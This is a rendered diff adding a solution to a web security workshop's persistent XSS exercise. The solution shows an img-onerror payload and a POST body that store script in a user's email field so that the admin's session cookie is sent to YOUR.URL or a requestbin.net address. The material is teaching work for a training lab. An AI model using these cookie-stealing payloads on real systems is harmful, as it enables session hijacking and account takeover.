

Before and after one commit to Zuehlke/WebSecurityWorkshop, a Markdown page: exercises.md, the part around the change. Shown: that part at 80% size. Drawn GitHub-style; pictures changed too: solutions/screenshots/blind-persistent-xss-sol1.png (added); folded sections open; blank space fills up the shorter version.

Commit message:
Persistent xss

````diff
--- a/exercises.md
+++ b/exercises.md
@@ -542,6 +542,51 @@ Have you tried the following?
 <img src=x onerror="this.src='YOUR.URL?'+document.cookie; this.removeAttribute('onerror');">
 ```
 </details>
+<details>
+  <summary>📚 Solution</summary>
+
+1. When we login as admin and visit `/#/administration`, we see that the email
+   of the registered users is displayed. The email can be set during
+   registration. Let's try creating an account with some html tags as email
+   address. If you try doing it via the UI it won't work as there is a
+   client-side verification.
+2. By inspecting the traffic, we learn that a POST request to `/api/Users` is
+   performed. We observe that the email field is not verified server side and we
+   can send any input (note, it is not clear at this point if inserted html tags
+   aren't escaped in the admin interface).
+3. Since we want to exfiltrate the cookie of the admin, we build a payload that
+   fits this purpose. The following payload sends the cookie to YOUR.URL.
+
+```
+<img src=x onerror="this.src='YOUR.URL?'+document.cookie; this.removeAttribute('onerror');">
+```
+
+For our PoC, we can use requestbin.net. Now, we send the following POST request
+to `/api/Users`:
+
+```json
+{
+    "email": "<img src=x onerror=\"this.src='https://requestbin.net/r/cbn65oyv?inspect?'+document.cookie; this.removeAttribute('onerror');\">",
+    "password": "password",
+    "passwordRepeat": "password",
+    "securityQuestion": {
+        "id": 2,
+        "question": "Mother's maiden name?",
+        "createdAt": "2022-04-25T21:18:01.837Z",
+        "updatedAt": "2022-04-25T21:18:01.837Z"
+    },
+    "securityAnswer": "23"
+}
+```
+
+4. At this point, we can login as admin and visit `/#/administration`.
+5. The requestbin (or you server) will receive the request with the session
+   cookie, i.e., you successfully exfiltrated the session cookie.
+
+
+<img src="https://github.com/Zuehlke/WebSecurityWorkshop/blob/solutions/solutions/screenshots/blind-persistent-xss-sol1.png?raw=true" alt="Screenshot that shows exfiltrated cookie"/>
+
+</details>
 
 
 ## Content Security Policy
````
